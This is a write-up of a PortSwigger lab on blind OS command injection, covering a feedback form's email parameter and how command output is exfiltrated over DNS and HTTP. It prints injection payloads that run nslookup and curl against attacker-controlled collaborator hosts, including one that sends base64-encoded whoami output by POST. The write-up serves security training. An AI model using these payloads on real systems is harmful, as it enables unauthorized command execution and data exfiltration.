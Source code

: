 # Blind OS command injection with out-of-band data exfiltration | Mar 1, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration), you'll learn: Blind OS command injection with out-of-band data exfiltration! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301141502.png)

In here, we can see there's a "Submit feedback" page:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301141514.png)

Let's try to submit one:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301141531.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301141539.png)

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301141551.png)

When we clicked the "Submit feedback" button, it'll send a POST request to `/feedback/submit`, with parameter `csrf`, `name`, `email`, `subject`, `message`, and the response is an empty JSON data.

Now, if the web application want to send an email to somewhere, **it could be using a Linux command called `mail`.**

That being said, we can try to do **OS command injection** in the `email` parameter:

```bash
|| id%0a
```

We **pipe (parse) the previous command into `id`**. Also, **we’ll need to provide a newline character(`\n` or `%0a` in URL encoding)**, to execute the `id` command.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301141622.png)

However, there's no output of our command in the response.

With that said, it might be vulnerable to blind OS command injection.

We can use an injected command that will trigger an out-of-band network interaction with a system that we control, using OAST techniques. For example:

```bash
& nslookup kgji2ohoyw.web-attacker.com &
```

This payload uses the `nslookup` command to cause a DNS lookup for the specified domain. The attacker can monitor for the specified lookup occurring, and thereby detect that the command was successfully injected.

- Go to Burp Suite's Collaborator, and copy the payload:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301141701.png)

- Send the payload:

**Payload:**
```bash
|| nslookup wyy9cdjn926m58clco02e0hiy945svgk.oastify.com%0a
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301141738.png)

- Burp Suite's Collaborator:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301141757.png)

As you can see, we successfully **received 2 DNS lookups**, which means **the feedback function is indeed vulnerable to blind OS command injection**!!

**Besides from `nslookup`, we can also use `curl`:**
```bash
|| curl wyy9cdjn926m58clco02e0hiy945svgk.oastify.com%0a
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301141833.png)

Once we've confirmed blind OS command injection, we can exfiltrate the output from injected commands using OAST techniques:

```bash
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

This will cause a DNS lookup to the attacker's domain containing the result of the `whoami` command:

```
wwwuser.kgji2ohoyw.web-attacker.com
```

**Again, besides from `nslookup`, we can also use `curl`:**
```
|| whoami | base64 | curl -d @- wyy9cdjn926m58clco02e0hiy945svgk.oastify.com%0a
```

It'll first execute `whoami` command. Then `base64` encode the `whoami` output. Finally, send the data via `curl` with POST method from **standard input**.

> In `curl` you can read `stdin` (standard input) and send the contents as the body of a `POST` request using the `-d @-` argument.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301142408.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301142433.png)

Nice! We received a HTTP POST request, with the exfiltrated output!

**Base64 decoded:**
```
peter-yFl51e
```

Now we can submit that username!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301142549.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OS-Command-Injection/OSCI-5/images/Pasted%20image%2020230301142554.png)

# What we've learned:

1. Blind OS command injection with out-of-band data exfiltration